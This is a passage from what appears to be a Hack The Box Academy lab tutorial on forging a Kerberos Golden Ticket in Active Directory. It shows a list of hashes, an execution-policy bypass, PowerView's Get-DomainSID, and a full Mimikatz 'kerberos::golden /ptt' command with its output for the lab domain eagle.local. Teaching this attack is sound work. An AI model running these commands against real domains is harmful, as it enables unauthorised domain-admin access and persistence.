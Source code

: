 ```cmd-session
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c
```

![krbtgt hash](https://academy.hackthebox.com/storage/modules/176/A8/krbtgt.png)

We will use the `Get-DomainSID` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to obtain the SID value of the Domain:

  Golden Ticket

```powershell-session
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```

![SID](https://academy.hackthebox.com/storage/modules/176/A8/sid.png)

Now, armed with all the required information, we can use `Mimikatz` to create a ticket for the account `Administrator`. The `/ptt` argument makes `Mimikatz` [pass the ticket into the current session](https://adsecurity.org/?page_id=1821#KERBEROSPTT):

  Golden Ticket

```cmd-session
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```
